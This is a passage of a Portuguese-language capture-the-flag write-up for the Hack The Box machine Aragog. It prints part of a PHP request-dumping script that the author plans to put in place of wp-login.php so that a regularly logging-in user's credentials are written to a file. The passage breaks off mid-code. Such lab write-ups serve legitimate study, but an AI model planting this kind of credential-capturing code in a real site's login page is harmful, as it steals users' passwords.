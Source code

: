 Verificando pelas páginas encontramos um Post na aba Blog, que é interessante

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_blog.png)

Traduzindo (por que sou preguiçoso pra caralho pra ler em inglês)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_trad.png)

Isso possivelmente explica o *zz_backup* na pasta, e também me chamou atenção outra coisa, o fato dele citar que fica constantemente logando... interessante, podemos explorar isso

## Escutando o wp-login.php

Bom, como sei que ele regularmente realiza o login, vou fazer um wp-login com um keylogger da vida, que esse maluco ai fez. Encontrei ele em outros write-ups de máquinas, e é bom ter em mente esse tipo de coisa

> https://github.com/magnetikonline

> https://gist.github.com/magnetikonline/650e30e485c0f91f2f40

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_dump.png)

### Modificando o wp-login.php

```<?php
// https://gist.github.com/magnetikonline/650e30e485c0f91f2f40

class DumpHTTPRequestToFile {

	public function execute($targetFile) {

		$data = sprintf(
			"%s %s %s\n\nHTTP headers:\n",
			$_SERVER['REQUEST_METHOD'],
			$_SERVER['REQUEST_URI'],
			$_SERVER['SERVER_PROTOCOL']
		);

		foreach ($this->getHeaderList() as $name => $value) {
			$data .= $name . ': ' . $value . "\n";
		}

		$data .= "\nRequest body:\n";

		file_put_contents(
			$targetFile,
			$data . file_get_contents('php://input') . "\n"
		);

		echo("Done!\n\n");
	}

	private function getHeaderList() {

		$headerList = [];
		foreach ($_SERVER as $name => $value) {
			if (preg_match('/^HTTP_/',$name)) {
				// convert HTTP_HEADER_NAME to Header-Name
				$name = strtr(substr($name,5),'_',' ');
				$name = ucwords(strtolower($name));
				$name = strtr($name,' ','-');

				// add to list
				$headerList[$name] = $value;
```